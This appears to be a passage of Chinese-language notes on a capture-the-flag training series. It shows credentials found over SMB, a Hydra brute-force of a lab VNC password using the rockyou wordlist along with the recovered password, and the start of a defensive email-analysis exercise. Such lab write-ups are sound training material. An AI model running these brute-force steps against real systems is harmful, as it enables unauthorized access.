 通过SMB服务进入服务器之后，得到
```plaintext
USERNAME	PASSWORD
santa		santa101
santahr		santa25
santaciso	santa30
santatech	santa200
santaaccounts	santa400
```

相对也是比较简单的
![[Pasted image 20221218110522.png]]

# Task 10 [Day 5] Brute-Forcing He knows when you're awake
#Offensive 

介绍了远程控制，并指导了如何使用VNC

## Hydra
```shell
hydra -P ./worelists/rockyou.txt 10.10.210.134 vnc
# 很神奇，Attackbox给了一个134M的字典
...
[5900][vnc] host: 10.10.210.134 password: 1q2w3e4r
[STATUS] attack finished for 10.10.210.134 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-12-17 22:29:37
```
需要注意的是，Kali没有自带Remmina，需要手动安装
```shell
sudo apt install remmina
```

![[Pasted image 20221218113406.png]]
相对来说，难度也算简单了
![[Pasted image 20221218113436.png]]

# Task 11 [Day 6] Email Analysis It's beginning to look a lot like phishing
#Defensive  #Electronic-Forensics 

介绍了电子邮件分析，介绍了电子邮件的数据结构
[在线邮件信誉检查](https://emailrep.io/)
[VirusTotal ](https://www.virustotal.com/gui/home/upload)
[InQuest ](https://labs.inquest.net/)
```shell
ubuntu@ip-10-10-121-190:~/Desktop$ emlAnalyzer -i Urgent\:.eml 
 =================
 ||  Structure  ||
 =================
|- multipart/mixed                       
|  |- multipart/related                  
|  |  |- text/html                       
|  |- application/msword                   [Division_of_labour-Load_share_plan.doc]

 =========================
 ||  URLs in HTML part  ||
 =========================
[+] No URLs found in the html

 ===============================================
 ||  Reloaded Content (aka. Tracking Pixels)  ||
```